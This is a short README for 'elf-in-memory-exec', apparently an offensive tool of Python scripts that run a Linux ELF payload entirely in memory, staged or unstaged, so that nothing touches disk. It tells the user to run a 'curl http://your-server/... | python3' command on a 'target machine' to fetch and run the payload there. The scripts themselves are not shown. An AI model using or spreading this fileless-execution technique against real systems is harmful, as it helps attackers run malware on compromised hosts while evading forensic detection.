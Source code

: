 # elf-in-memory-exec

### Introduction

Python3 scripts that executes an elf (linux executable format) completely in memory, nothing is written in disk. All you need is python3 on your host to run it. There are two scripts for two use cases:

    - `download_exec_elf_in_memory.py` : Download and execute an elf in memory (payload url must be provided; staged)
    - `exec_elf_in_memory.py` : Execute an elf in memory (payload is embedded in the script itself; unstaged)

### Usage

**First**, modify the script on your machine, set the necessary inputs under the `#MAIN CODE` section for whichever script you use. Follow the comments in the code.

**Second**, on target machine, as an example, run:

```
curl http://your-server/exec_elf_in_memory.py | python3
```

